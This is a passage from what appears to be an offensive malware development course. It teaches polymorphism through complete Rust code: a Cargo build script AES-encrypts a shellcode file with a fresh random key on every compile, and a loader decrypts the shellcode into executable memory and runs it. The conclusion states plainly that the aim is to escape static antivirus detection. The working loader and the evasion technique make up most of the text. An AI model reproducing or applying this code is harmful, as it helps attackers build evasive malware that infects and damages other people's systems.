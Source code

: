 +++
title = "Polymorphism"
weight = 2
+++

Polymorphic malware consists of a binary that constantly changes its content, while retaining the same functionality. This makes them invisible to detection based on file signatures.

Think of our malware as tigers whose stripes are constantly changing position.

For our polymorphism implementation, we're going to develop a program that executes a shellcode whose contents are used to display a command prompt.

This shellcode will be AES encrypted in the program's memory, using a key and an IV that will be randomly regenerated each time the binary is compiled, hence the polymorphic nature of our malware.

Our example will be compiled for Linux, but all functionalities are fully cross-platform to Windows.

Here's the structure of our project:
```
.
├── build.rs
├── Cargo.lock
├── Cargo.toml
├── shellcode.bin
└── src
 ├── binaries
 │   ├── encrypted_shellcode.bin
 │   ├── iv.bin
 │   └── key.bin
 └── main.rs
```

## Cargo build scripts

The Cargo tool suite provides us with the ability to develop "scripts" in Rust that will be executed upstream of the compilation of our main program.

This feature has been developed in particular to be able to compile C code when our Rust code depends on it, but we're going to use it to generate our encryption key, IV and to encrypt our shellcode.

To define a build script, we need to add the following line to our Cargo.toml file:
```toml

[package]
...
package = "build.rs"

[dependencies]
libc = "0.2"
libaes = "0.7"

[build-dependencies]
libaes = "0.7"
rand = "0.8"
```

Here, we tell Cargo to run the `build.rs` script before starting to compile the program. Next, we fill in the dependencies of our program, and finally, we fill in the dependencies used only in the context of the "build script".

As the *build.rs* file is the Rust script that will be executed during pre-compilation, here are its contents:
```rust
use libaes::Cipher;
use rand::RngCore;
use std::fs;

fn main() {
    let src_path = "shellcode.bin";
    let dst_path = "src/binaries/encrypted_shellcode.bin";
    let key_path = "src/binaries/key.bin";
    let iv_path = "src/binaries/iv.bin";

    let mut key = [0u8; 32];
    let mut iv = [0u8; 32];

    rand::thread_rng().fill_bytes(&mut key);
    rand::thread_rng().fill_bytes(&mut iv);

    let cipher = Cipher::new_256(&key);

    let encrypted = cipher.cbc_encrypt(&iv, &fs::read(src_path).unwrap());
    fs::write(dst_path, encrypted).unwrap();
    fs::write(key_path, key).unwrap();
    fs::write(iv_path, iv).unwrap();
}
```

In this script, we start by defining the paths to the files we're going to use, including the original shellcode whose contents we're going to retrieve, and then the location of the encrypted shellcode as well as the key and IV that go with it, in the project's source code.

We then initialize two buffers, one for the key and one for the IV, which we'll fill with random characters.

We now have what we need to encrypt our shellcode and store everything in its proper place so that it can be loaded by our program.

## Executing the shellcode

We'll now describe how to load the previously generated files into our program and then decrypt and call shellcode at runtime:
```rust
use libaes::Cipher;
use libc::mmap;
use libc::{mprotect, MAP_ANON, MAP_PRIVATE, PROT_EXEC, PROT_READ, PROT_WRITE};
use std::{mem, ptr};

static SHELLCODE: &[u8] = include_bytes!("binaries/encrypted_shellcode.bin");
static KEY: &[u8; 32] = include_bytes!("binaries/key.bin");
static IV: &[u8; 32] = include_bytes!("binaries/iv.bin");

fn main() {
    let cipher = Cipher::new_256(KEY);
    let decrypted = cipher.cbc_decrypt(IV, SHELLCODE);

    unsafe {
        let map = mmap(
            ptr::null_mut(),
            4096,
            PROT_READ | PROT_WRITE,
            MAP_PRIVATE | MAP_ANON,
            -1,
            0,
        );

        ptr::copy(decrypted.as_ptr(), map as *mut u8, decrypted.len());

        mprotect(map, 4096, PROT_READ | PROT_EXEC);

        let exec_shellcode: extern "C" fn() -> ! = mem::transmute(map);
        exec_shellcode();
    }
}
```

Here, we start by loading the contents of the encrypted shellcode, the key and the IV into their respective static variables at compile time.

We then proceed to decrypt the shellcode in memory. The rest of the program follows the same principle as the local shellcode execution we saw earlier in the course.

By compiling our program twice in succession and calculating the hash of the executable, we can see that there are different contents each time:

![](../polymorphism_build.png)

## Conclusion

You now know how to implement polymorphism in your malware and thus escape static antivirus detection. Depending on your creativity, there are other possible implementations than the one demonstrated here, but the idea remains the same.

The next part of the course deals with metamorphism, which takes the same principle to a higher level. 